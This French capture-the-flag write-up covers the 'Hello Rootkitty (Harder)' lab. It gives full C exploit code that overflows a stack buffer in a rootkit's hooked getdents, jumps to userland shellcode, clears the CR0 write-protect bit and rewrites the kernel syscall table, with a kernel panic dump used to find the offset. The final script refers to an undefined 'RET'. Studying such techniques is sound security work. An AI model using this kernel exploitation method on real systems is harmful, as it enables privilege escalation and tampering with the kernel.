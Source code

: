 # Hello Rootkitty (Harder)
## Description
Une machine a été infectée par le rootkit Hello Rootkitty qui empêche la lecture de certains fichiers. Votre mission : aider la victime à récupérer le contenu des fichiers affectés. Une fois connecté en SSH (ctf:ctf), lancez le wrapper pour démarrer le challenge.

## Write-up 
Le module est quasiment le même que pour *Hello Rootkitty* mais cette fois ci la fonction `cleanup_module` ne fait pas son travail de nettoyage.
Donc si l'on parvient à retirer ce module, la table de syscall restera modifiée et on risque d'appeler de la mémoire non mappée.

Il va donc falloir que l'on fasse les choses nous même !

Il n'y a ni SMEP ni SMAP donc on va pouvoir écrire un shellcode en userland et sauter dessus avec grace au stack buffer overflow présent dans `ecsc_sys_getdents`

Dans un premier temps on va voir si l'offset a changé :
```c
#include <sys/types.h>
#include <sys/stat.h>
#include <time.h>
#include <sys/syscall.h> 
#include <stdio.h>
#include <string.h>
#include <fcntl.h>
#include <stdlib.h>
#include <unistd.h>
#define _GNU_SOURCE
#include <dirent.h>


int main(int argc, char **argv){
    char name[300];
    
    memset(name, 0, 300);
    strcpy(name, "ecsc_flag_");
    strcat(name, "aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa" );
    
    int fd = open(name, O_RDWR | O_CREAT, 644);
    write(fd, name, 200);
    close(fd);

    fd = open(".", O_RDONLY | O_DIRECTORY);
    syscall(SYS_getdents, fd, name, 200);

}
```

ce qui me donne un beau kernel panic  
```
Modules linked in: ecsc(O)
CPU: 0 PID: 66 Comm: ls Tainted: G           O    4.14.167 #11
task: ffff9b02c1e19100 task.stack: ffffa2f20009c000
RIP: 0010:0x61616161616e6161
RSP: 0018:ffffa2f20009ff38 EFLAGS: 00000282
RAX: 00000000000000e8 RBX: 61616161616a6161 RCX: 0000000000000000
RDX: 00007fffa711cc54 RSI: ffffa2f20009ff61 RDI: 00007fffa711cbb3
RBP: 61616161616d6161 R08: ffffa2f20009fed0 R09: ffffffffc021c024
R10: ffffa2f20009fec0 R11: 6161706161616161 R12: 61616161616b6161
R13: 61616161616c6161 R14: 0000000000000000 R15: 0000000000000000
FS:  0000000000000000(0000) GS:ffffffff92a36000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 00007fffa711cb70 CR3: 0000000001e8a000 CR4: 00000000000006b0
Call Trace:
Code:  Bad RIP value.
RIP: 0x61616161616e6161 RSP: ffffa2f20009ff38
```
qui permet de trouver l'offset `cyclic -n 8 -l 0x61616161616e6161 -> 102`

On a plus qu'à écrire un shellcode qui va remettre la syscall table en place
```c
//  gcc -o exploit exploit.c -static -no-pie -O0 -masm=intel
#define OFFSET 102

#define BASE 0xffffffffa4e00000
#define GETDENTS64    0xc7610
#define GETDENTS      0xc7710
#define LSTAT         0xbad30
#define SYSCALL_TABLE 0x8001a0
#define GADGET_RET    0x02fd70

void shellcode(){
    unsigned long *table = (unsigned long *)(BASE+SYSCALL_TABLE);
    table[0xd9] = BASE + GETDENTS64;
    table[0x4e] = BASE + GETDENTS;
    table[0x06] = BASE + LSTAT;
    exit(0);
}

int main(int argc, char **argv){
    char name[200];
    unsigned long *rop;
    
    memset(name, 0, 200);
    strcpy(name, "ecsc_flag_");
    
    memset(name+strlen(name), 'A',OFFSET );
    
    rop = (unsigned long *)(name+strlen(name));
    rop[0] = BASE + GADGET_RET;
    rop[1] = shellcode;

    int fd = open(name, O_RDWR | O_CREAT, 644);
    write(fd, name, 200);
    close(fd);

    fd = open(".", O_RDONLY | O_DIRECTORY);
    syscall(SYS_getdents, fd, name, 200);
}
``` 
Mais en l'exécutant on se rend compte que ça ne marche pas, on a toujours un kernel panic.

La syscall table est dans une région read-only, ont doit alors se donner les droits de la modifier.  
Pour cela il faut mettre le 16e bit de CR0 à 0 [ref](https://en.wikipedia.org/wiki/Control_register#Control_registers_in_Intel_x86_series).

On obtient donc le script final:
```c
//  gcc -o exploit exploit.c -static -no-pie -O0 -masm=intel
#include <sys/types.h>
#include <sys/stat.h>
#include <time.h>
#include <sys/syscall.h> 
#include <stdio.h>
#include <string.h>
#include <fcntl.h>
#include <stdlib.h>
#include <unistd.h>
#define _GNU_SOURCE 
#include <dirent.h>

#define OFFSET 102

#define BASE 0xffffffffa4e00000
#define GETDENTS64    0xc7610
#define GETDENTS      0xc7710
#define LSTAT         0xbad30
#define SYSCALL_TABLE 0x8001a0
#define GADGET_RET    0x02fd70


void shellcode(){
    unsigned long *table = (unsigned long *)(BASE+SYSCALL_TABLE);

    asm(
        ".intel_syntax noprefix\n"
        "MOV RDX,CR0\n"
        "AND RDX,-0x10001\n"
        "MOV CR0, RDX"
    );
    table[0xd9] = BASE + GETDENTS64;
    table[0x4e] = BASE + GETDENTS;
    table[0x06] = BASE + LSTAT;
    exit(0);
}

int main(int argc, char **argv){
    char name[200];
    unsigned long *rop;
    
    memset(name, 0, 200);
    strcpy(name, "ecsc_flag_");
    
    memset(name+strlen(name), 'A',OFFSET );
    
    rop = (unsigned long *)(name+strlen(name));
    rop[0] = BASE + RET;
    rop[1] = shellcode;

    int fd = open(name, O_RDWR | O_CREAT, 644);
    write(fd, name, 200);
    close(fd);

    fd = open(".", O_RDONLY | O_DIRECTORY);
    syscall(SYS_getdents, fd, name, 200);

}
```